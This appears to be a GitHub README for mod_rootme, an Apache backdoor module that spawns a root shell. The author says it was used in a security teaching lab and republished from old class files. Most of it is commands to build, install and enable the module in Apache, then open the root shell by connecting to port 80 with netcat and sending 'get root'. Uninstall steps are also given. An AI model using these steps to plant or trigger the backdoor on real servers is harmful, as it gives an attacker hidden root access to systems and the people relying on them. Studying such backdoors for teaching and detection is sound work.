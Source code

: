 # mod_rootme

mod_rootme is a Apache backdoor module that can spawn a root shell.

I used this module while teaching a software security lab.  The module
has been around for a while, but
[the blog](http://blog.danfego.net/2009/10/update-to-mod_rootme/) that
hosted the most recent version seems to have disappeared from the web.
Malware detection programs such as 'rkhunter' and 'unhide' can
trivially detect the presence of mod_rootme, so it should not be too
harmful to have this code in circulation again.

This repository is imported from an old archive I happened to find
from my old class files (mod_rootme-0.4.tar.gz), updated to build on
Debian GNU/Linux 8.0.

See README.old.txt for the original documentation.

## Trying this thing out

To build and test on a Debian/Ubuntu system, you would need apache2
and apache2-dev.  Run 'make' and 'sudo make install' to build the
module, and enable it in httpd configuration, perhaps like so:

```
sudo sh -c \
'echo "LoadModule rootme_module \
/usr/lib/apache2/modules/mod_rootme.so" | sudo tee > \
/etc/apache2/mods-available/rootme.load'
```

Now to enable the module:

```
sudo a2enmod rootme
sudo service apache2 restart
```

To check that the root shell is indeed available:

```
nc localhost 80
get root
id
```

To uninstall the module:

```
sudo a2dismod rootme
sudo rm /usr/lib/apache2/modules/mod_rootme.so
sudo service apache2 restart
```
